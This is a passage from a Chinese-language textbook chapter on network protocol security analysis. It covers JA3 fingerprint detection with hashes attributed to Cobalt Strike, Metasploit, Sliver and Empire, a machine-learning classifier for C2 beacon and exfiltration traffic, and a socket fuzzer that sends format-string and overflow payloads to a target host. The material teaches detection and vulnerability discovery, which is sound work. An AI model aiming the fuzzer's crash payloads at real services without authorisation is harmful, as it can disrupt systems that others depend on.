    curves_str = '-'.join(str(c) for c in curves)
    
    # 点格式
    point_formats = client_hello.get('ec_point_formats', [])
    formats_str = '-'.join(str(f) for f in point_formats)
    
    # 组合并计算 MD5
    ja3_string = f"{tls_version},{ciphers_str},{extensions_str},{curves_str},{formats_str}"
    ja3_hash = hashlib.md5(ja3_string.encode()).hexdigest()
    
    return ja3_string, ja3_hash

# 已知恶意工具的 JA3 指纹
MALICIOUS_JA3 = {
    'e7d705a3286e19ea42f587b344ee6865': 'CobaltStrike',
    '72a589da586844d7f0818ce684948eea': 'Metasploit',
    'a0e9f5d64349fb13f3d0b1dd5b4e5a96': 'Sliver C2',
    'b32309a26951912be7dba376398abc3b': 'Empire',
}

def check_ja3(ja3_hash):
    """检查 JA3 指纹是否属于已知恶意工具"""
    return MALICIOUS_JA3.get(ja3_hash, None)

# 使用 tshark 提取 JA3 指纹
# tshark -r capture.pcap -Y "tls.handshake.type == 1" \
#     -T fields -e tls.handshake.ja3 -e ip.src
```

**机器学习流量分类**：

```python
#!/usr/bin/env python3
"""
ml_traffic_classifier.py - 基于流量统计特征的协议分类
使用 scikit-learn 进行流量分类
"""
import numpy as np
from sklearn.ensemble import RandomForestClassifier
from sklearn.model_selection import train_test_split

def extract_flow_features(packets):
    """
    从数据包序列提取流特征
    
    特征维度:
    1. 包长度统计（均值、标准差、最大值、最小值）
    2. 包间隔时间统计
    3. 上下行包比例
    4. TCP 标志位分布
    5. 有效载荷熵
    """
    features = []
    
    # 包长度
    lengths = [len(p) for p in packets]
    features.extend([
        np.mean(lengths),
        np.std(lengths),
        np.max(lengths),
        np.min(lengths),
        np.median(lengths),
    ])
    
    # 包间隔时间
    if len(packets) > 1:
        intervals = [
            packets[i+1].time - packets[i].time 
            for i in range(len(packets)-1)
        ]
        features.extend([
            np.mean(intervals),
            np.std(intervals),
            np.max(intervals),
        ])
    else:
        features.extend([0, 0, 0])
    
    # 上下行比例
    total = len(packets)
    upstream = sum(1 for p in packets if hasattr(p, 'src'))
    features.append(upstream / max(total, 1))
    
    return features

# 训练流量分类器
# 标签: normal, dns_tunnel, c2_beacon, data_exfil
def train_classifier(X, y):
    """训练随机森林流量分类器"""
    X_train, X_test, y_train, y_test = train_test_split(
        X, y, test_size=0.2, random_state=42
    )
    
    clf = RandomForestClassifier(
        n_estimators=100,
        max_depth=10,
        random_state=42
    )
    clf.fit(X_train, y_train)
    
    accuracy = clf.score(X_test, y_test)
    print(f"分类准确率: {accuracy:.2%}")
    
    # 特征重要性
    feature_names = [
        'pkt_len_mean', 'pkt_len_std', 'pkt_len_max', 'pkt_len_min', 'pkt_len_median',
        'interval_mean', 'interval_std', 'interval_max',
        'upstream_ratio'
    ]
    importance = sorted(
        zip(feature_names, clf.feature_importances_),
        key=lambda x: x[1], reverse=True
    )
    print("\n特征重要性排名:")
    for name, imp in importance:
        print(f"  {name}: {imp:.4f}")
    
    return clf
```

### 10.9 协议 Fuzzing 与漏洞发现

协议 Fuzzing 是发现协议实现漏洞的重要方法。通过向协议实现发送大量随机或半随机的畸形数据，触发异常行为（崩溃、内存泄漏、逻辑错误）。

#### 10.9.1 Fuzzing 方法论



**Fuzzing 策略对比**：

| 策略 | 原理 | 优势 | 劣势 | 工具 |
|------|------|------|------|------|
| 变异 Fuzzing | 对合法数据随机修改 | 简单、覆盖率高 | 盲目性大 | AFL、Radamsa |
| 生成 Fuzzing | 基于协议规范生成数据 | 结构化、命中率高 | 需要协议模型 | Peach、boofuzz |
| 覆盖率引导 | 根据代码覆盖率调整变异 | 自适应、深度覆盖 | 需要源码或二进制插桩 | AFL++、LibFuzzer |
| 智能 Fuzzing | 使用 LLM 生成高质量测试用例 | 理解协议语义 | 计算成本高 | ChatFuzz、FuzzGPT |

```python
#!/usr/bin/env python3
"""
protocol_fuzzer.py - 简单的协议 Fuzzer 框架
"""
import socket
import random
import struct
import time

class ProtocolFuzzer:
    def __init__(self, target_host, target_port):
        self.target = (target_host, target_port)
        self.crashes = []
    
    def mutate(self, data, strategy='random'):
        """变异策略"""
        data = bytearray(data)
        
        if strategy == 'random':
            # 随机翻转位
            for _ in range(random.randint(1, 5)):
                pos = random.randint(0, len(data) - 1)
                bit = random.randint(0, 7)
                data[pos] ^= (1 << bit)
        
        elif strategy == 'boundary':
            # 边界值替换
            boundary_values = [0, 1, 127, 128, 255, 256, 32767, 32768, 65535, 65536]
            pos = random.randint(0, len(data) - 1)
            val = random.choice(boundary_values)
            if pos + 1 < len(data):
                data[pos:pos+2] = struct.pack('<H', val & 0xFFFF)
        
        elif strategy == 'format_string':
            # 格式字符串注入
            payloads = [b'%s%s%s%s', b'%x%x%x%x', b'%n%n%n%n', b'%08x.%08x.%08x']
            pos = random.randint(0, len(data) - 1)
            data[pos:pos] = random.choice(payloads)
        
        elif strategy == 'overflow':
            # 缓冲区溢出
            data.extend(b'A' * random.choice([256, 1024, 4096, 65536]))
        
        return bytes(data)
    
    def send_fuzz(self, data, timeout=5):
        """发送变异数据并监控响应"""
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(timeout)
            sock.connect(self.target)
            sock.send(data)
            
            try:
                response = sock.recv(4096)
                return response
            except socket.timeout:
                return None
            finally:
                sock.close()
                
        except ConnectionRefusedError:
            print(f"[!] 目标拒绝连接 — 可能已崩溃!")
            self.crashes.append(data)
            return None
        except Exception as e:
            print(f"[!] 异常: {e}")
            return None
    
    def fuzz(self, seed_data, iterations=10000):
        """主 Fuzzing 循环"""
        strategies = ['random', 'boundary', 'format_string', 'overflow']
        
        for i in range(iterations):
            strategy = random.choice(strategies)
            mutated = self.mutate(seed_data, strategy)
            
            response = self.send_fuzz(mutated)
            
            if i % 100 == 0:
                print(f"[*] 进度: {i}/{iterations}, "
                      f"策略: {strategy}, 崩溃: {len(self.crashes)}")
            
            # 检查目标是否仍然存活
            if self.crashes:
                print(f"[!] 发现 {len(self.crashes)} 次崩溃")
                break
            
            time.sleep(0.01)  # 避免过快发送

# 使用示例
# fuzzer = ProtocolFuzzer("192.168.1.100", 80)
# seed = b"GET / HTTP/1.1\r\nHost: test\r\n\r\n"
# fuzzer.fuzz(seed, iterations=50000)
```

### 10.10 常见误区与最佳实践

#### 误区一：加密等于安全

TLS 加密只保护数据在传输过程中不被窃听，但不保护端点安全。攻击者可以通过恶意证书、中间人代理、或入侵服务器本身来获取明文数据。

#### 误区二：防火墙允许的流量就是安全的

防火墙基于五元组（源 IP、目的 IP、源端口、目的端口、协议）过滤，无法检测封装在合法协议中的恶意数据。DNS 隧道、HTTP 隧道、ICMP 隧道都可以绕过传统防火墙。

#### 误区三：内网协议不需要加密

ARP 欺骗、DHCP 欺骗、LLMNR/NBT-NS 投毒等内网攻击都利用了未加密的局域网协议。零信任架构（Zero Trust）要求即使是内网通信也必须加密和认证。

#### 误区四：补丁打好了就安全了

协议层面的安全问题往往是设计缺陷，而非实现漏洞。TCP 的序列号可预测性、DNS 的无认证性、ARP 的无验证性——这些是协议本身的问题，只能通过上层安全机制（TLS、DNSSEC、802.1X）来弥补。

**协议安全检查清单**：

| 检查项 | 内容 | 验证方法 |
|--------|------|---------|
| TLS 版本 | 仅允许 TLS 1.2+ | `nmap --script ssl-enum-ciphers` |
| 密码套件 | 禁用 RC4、DES、3DES、NULL | `testssl.sh` |
| 证书有效性 | 未过期、未吊销、链完整 | `openssl s_client -verify` |
| DNSSEC | 关键域名启用 DNSSEC | `dig +dnssec` |
| HSTS | 启用 HTTP 严格传输安全 | `curl -I` 检查 Strict-Transport-Security |
| CAA 记录 | 限制 CA 签发权限 | `dig example.com CAA` |
| BCP 38 | ISP 层面入口过滤 | `traceroute` 验证源地址 |
| ARP 保护 | DAI + DHCP Snooping | 交换机配置审查 |
| RPKI | BGP 路由验证 | `whois -h whois.radb.net` |

### 10.11 本节小结

网络协议的安全分析是网络安全研究的核心领域。本节从传输层（TCP/UDP）、网络层（ICMP/BGP）、链路层（ARP）、应用层（DNS/HTTP）和安全层（TLS）五个维度，系统分析了各协议的设计缺陷、攻击方法和防御机制。

关键要点：
- **协议设计的时间局限性**：大多数协议设计于安全威胁不显著的年代，缺乏内置的安全机制
- **攻击面的层次性**：从链路层的 ARP 欺骗到路由层的 BGP 劫持，每一层都有独特的攻击向量
- **防御的纵深性**：没有单一的银弹，需要多层次的安全机制组合（DNSSEC + TLS + RPKI + DAI）
- **新协议的新挑战**：HTTP/2 的 Rapid Reset、QUIC 的 0-RTT 重放，新特性带来新攻击面
- **混淆与检测的军备竞赛**：协议混淆技术不断发展，检测方法也从规则匹配演进到机器学习

掌握协议深度分析能力，需要持续关注 CVE 公告、安全研究论文和实际攻防案例。建议在隔离实验环境中反复实践本节的攻击和防御技术，建立从协议规范到实际利用的完整知识链。
